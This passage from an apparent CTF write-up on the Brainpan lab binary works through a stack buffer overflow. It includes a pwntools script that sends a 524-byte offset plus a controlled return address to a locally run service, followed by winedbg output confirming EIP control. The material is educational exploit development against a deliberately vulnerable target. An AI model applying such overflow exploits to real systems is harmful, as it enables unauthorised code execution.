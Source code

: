 ```c
  return 1;
}
```

# Binary Exploitation

### Writing the exploit

There is a buffer overflow as a result of calling `_recv` with a 1000-byte input. 

I wrote a simple exploit using pwntools that connected to a version of the service that I ran locally using `wine64 brainpan.exe`

The binary provides an error message: `"Unhandled page fault on read access to <address> at address <address>"`

After fuzzing for a bit, I found that the offset of `524` allows us to control the read address:


```python3
#!/bin/python3

from pwn import *

context.log_level = 'debug'

r = remote('localhost', 9999)

offset = 524
payload = b'A'*offset
payload += p32(0xdeadbeef)

r.sendline(payload)

r.interactive()

```

This code provides the following error: `wine: Unhandled page fault on read access to DEADBEEF at address DEADBEEF (thread 002d), starting debugger...`


Running `winedbg brainpan.exe` shows more information

```
Wine-dbg>c
Unhandled exception: page fault on read access to 0xdeadbeef in 32-bit code (0x00000000deadbeef).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:deadbeef ESP:0042f870 EBP:41414141 EFLAGS:00010297(  R- --  I S -A-P-C)
 EAX:ffffffff EBX:3116f000 ECX:0042f660 EDX:ffffffff
 ESI:00000000 EDI:00000000
Stack dump:
0x000000000042f870:  0042fa900042000a 00000000000003e8
0x000000000042f880:  0000000000000000 0042f92000000000
0x000000000042f890:  0000000000000000 0000001000000000
0x000000000042f8a0:  000000007bcd1f50 0042f90800000000
0x000000000042f8b0:  0100007f5ea10002 0000000000000000
0x000000000042f8c0:  000000000f270002 00000000ffffffff
0x000000000042f8d0:  0042fa100042f8f0 0000002400000028
0x000000000042f8e0:  536e695702020202 00302e32206b636f
0x000000000042f8f0:  7bc5c4167fa14438 7bc5cbe50042f9f8
0x000000000042f900:  0042fb700042f920 7bc520ba0042fa78
0x000000000042f910:  0000000000000000 b4cb650000000000
0x000000000042f920:  000000020042f9a8 000000000042f968
Backtrace:
=>0 0x00000000deadbeef (0x0000000041414141)
```